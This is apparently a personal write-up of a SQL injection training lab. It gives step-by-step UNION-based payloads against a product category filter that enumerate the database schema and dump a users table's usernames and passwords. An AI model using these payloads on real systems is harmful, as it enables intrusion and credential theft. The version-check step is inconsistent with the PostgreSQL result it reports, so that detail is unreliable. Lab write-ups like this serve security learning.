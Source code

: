 ## End Goal: Login as `administrator`



## Burp

GET /filter?category=Pets HTTP/2


## Finding the number of columns

`pets ' union select null , null --`

number of columns = 2

## Finding the column of string datatype

`Pets ' union select 'a' , 'a' --`

both column were of string datatype


## finding the type of database

`pets ' union select @@version , null --`

we found database is PostgreSQL


## Finding the database contents

 PostgreSQL 	
 		SELECT * FROM information_schema.tables
		SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE


outputing contents from information_schema.tables
`pets ' union select table_name , null from information_schema.tables --`
this list all the table name
among which we will look into table `users_yripss`


outputing contents of table `users_yripss`
`' union SELECT column_name , null FROM information_schema.columns WHERE table_name = 'users_yripss' --`

we found two columns : password_xypzvr  & username_bjxspf


outputing contents of password_xypzvr  & username_bjxspf column from table users_yripss
`' union select password_xypzvr  , username_bjxspf from users_yripss --`















